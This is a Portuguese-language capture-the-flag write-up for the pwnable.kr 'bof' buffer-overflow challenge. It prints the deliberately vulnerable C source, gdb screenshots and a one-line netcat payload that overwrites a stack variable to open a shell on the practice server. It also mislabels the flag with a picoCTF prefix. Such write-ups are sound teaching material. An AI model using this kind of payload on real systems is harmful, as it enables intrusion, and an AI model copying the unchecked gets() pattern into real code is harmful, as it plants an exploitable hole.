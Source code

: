 # bof
###### Resolvido por @Menegaldo
> Este é um CTF sobre [Buffer Overflow]  

## Sobre o Desafio  

Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Running at : nc pwnable.kr 9000

## 🔗 Links do Desafio

- [Exercício](https://pwnable.kr/play.php)
- [Download](http://pwnable.kr/bin/bof)  
- [Download](http://pwnable.kr/bin/bof.c)  

## Solução

```c++
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

permissão de execução
```
chmod +x bof
```
rodar o arquivo
```
./bof
```

usando o `gdb bof`

![image](https://github.com/user-attachments/assets/5b512de4-7913-422a-b98c-7cd8de8763f8)

![image](https://github.com/user-attachments/assets/65f5b85a-fead-47d0-86ec-a960541f9e53)

(gdb) disas <função_analisada>

![image](https://github.com/user-attachments/assets/825153ba-a22c-4098-80a4-32a08527067d)

![image](https://github.com/user-attachments/assets/56d511d8-946a-4f09-a892-322d0b9b83e1)

![image](https://github.com/user-attachments/assets/1ae2097a-81c9-464a-b5cc-b145bc0da2f6)

![image](https://github.com/user-attachments/assets/7c85f508-dec2-4a84-8b9b-7652f7c3a3ed)

![image](https://github.com/user-attachments/assets/1926e179-6b1c-4d30-a5fc-a9723f19c80e)

```(python -c "print '\x41'*52 + '\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000```

cat flag

> Assim, obtemos a flag `picoCTF{daddy, I just pwned a buFFer :)}`  

